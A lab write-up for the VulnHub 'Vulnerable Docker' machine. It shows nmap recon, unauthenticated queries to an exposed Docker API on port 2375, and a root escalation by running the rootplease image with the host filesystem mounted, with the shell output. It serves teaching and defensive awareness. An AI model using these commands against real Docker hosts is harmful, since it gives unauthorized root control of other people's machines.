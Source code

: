 # KBID 45 - Exposed docker daemon

## Exposed docker daemon over HTTP rest API

{% hint style="info" %}
First download the OVA to start on virtualbox [https://www.vulnhub.com/entry/vulnerable-docker-1,208/](https://www.vulnhub.com/entry/vulnerable-docker-1,208/)
{% endhint %}

> After downloading the image run it and start it in easy mode. After you have found the IP address of the machine than happy hacking!

By default, Docker runs through a non-networked UNIX socket. It can also optionally communicate using an HTTP socket, as is what we see with this vulnerable VM.

If you need Docker to be reachable through the network in a safe manner, you can enable TLS by specifying the tlsverify flag and pointing Docker’s tlscacert flag to a trusted CA certificate.

In the daemon mode, it only allows connections from clients authenticated by a certificate signed by that CA. In the client mode, it only connects to servers with a certificate signed by that CA.

However this is not the case for the following example, let's see if we can now gain control over the Docker host machine by exploiting this open Docker API.

**Recon**

A normal nmap scan does not find any interesting results:

```text
nmap -sT -sV <ip adress>

Nmap scan report for <ip adress>
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

However, when we start scanning the entire port range, here comes some interesting information:

```text
nmap -sT -sV -p- <ip adress>

Nmap scan report for <ip adress>
Host is up (0.10s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker  Docker 17.06.0-ce
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now that we have found the port on which the Docker API is listening let's see if we can get some interesting information from there? We can either do a curl to the following endpoint, or simply put the following GET request in the browser to see the results.

```text
curl http://<ip adress>:2375/images/json
```

we now find information about all the current running images:

```text
[{
    "Containers": -1,
    "Created": 1501805621,
    "Id": "sha256:c4260b289fc788fd3f66a2a1bb0e7697b62511861626a39c7d0676b8909afc20",
    "Labels": {},
    "ParentId": "",
    "RepoDigests": ["wordpress@sha256:632c5f09a3de6fa711b208126bcef405e844a13f7cb38a83b0045043f4b1266f"],
    "RepoTags": ["wordpress:latest"],
    "SharedSize": -1,
    "Size": 405873668,
    "VirtualSize": 405873668
}, {
    "Containers": -1,
    "Created": 1501052770,
    "Id": "sha256:c73c7527c03a13729a6bba88a3251c95629e8036c0ccf17dadefb4c5f077a315",
    "Labels": {},
    "ParentId": "",
    "RepoDigests": ["mysql@sha256:96edf37370df96d2a4ee1715cc5c7820a0ec6286551a927981ed50f0273d9b43"],
    "RepoTags": ["mysql:5.7"],
    "SharedSize": -1,
    "Size": 412365478,
    "VirtualSize": 412365478
}, {
    "Containers": -1,
    "Created": 1492156751,
    "Id": "sha256:7d3ecb48134e41ac56003879ae8b0faa7e8931b927a3af28af82504434b9c9c4",
    "Labels": {},
    "ParentId": "",
    "RepoDigests": ["jeroenpeeters/docker-ssh@sha256:a1c8cefef3e2a7242970ef841acfcb9ead47355bc87a9c5c25627659e1c0b2b9"],
    "RepoTags": ["jeroenpeeters/docker-ssh:latest"],
    "SharedSize": -1,
    "Size": 43209635,
    "VirtualSize": 43209635
}]
```

Now let's see if we can make it more interesting. First i want to make my Docker client communicate with the remote Daemon API I do this by running the following command:

```text
alias dockerx="docker -H=<ip adress>:2375"
```

alternatively we could also use the docker engine SDK as described here:

```text
https://docs.docker.com/develop/sdk/examples/#run-a-container
```

Now, we first test that the alias works, we do this by simply running the following command:

```text
dockerx ps

CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                  NAMES
8f4bca8ef241        wordpress:latest           "docker-entrypoint.s…"   18 months ago       Up 2 hours          0.0.0.0:8000->80/tcp   content_wordpress_1
13f0a3bb2706        mysql:5.7                  "docker-entrypoint.s…"   18 months ago       Up 2 hours          3306/tcp               content_db_1
b90babce1037        jeroenpeeters/docker-ssh   "npm start"              18 months ago       Up 2 hours          22/tcp, 8022/tcp       content_ssh_1
```

### exploitation

Now, we want to become root on the Docker host machine, we can achieve this by running a special container.

The command below is going to perform the privilege escalation and fetches a Docker image from the Docker Hub Registry and runs it. The -v parameter that you pass to Docker specifies that you want to create a volume in the Docker instance. The -i and -t parameters put Docker into ‘shell mode’ rather than starting a daemon process.

The instance is set up to mount the root filesystem of the host machine to the instance’s volume, so when the instance starts it immediately loads a chroot into that volume. This effectively gives you root on the machine.

There are many, many other ways to achieve this, but this was one of the most straightforward.

```text
dockerx run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Congratulations, we now are root on the Docker host machine!

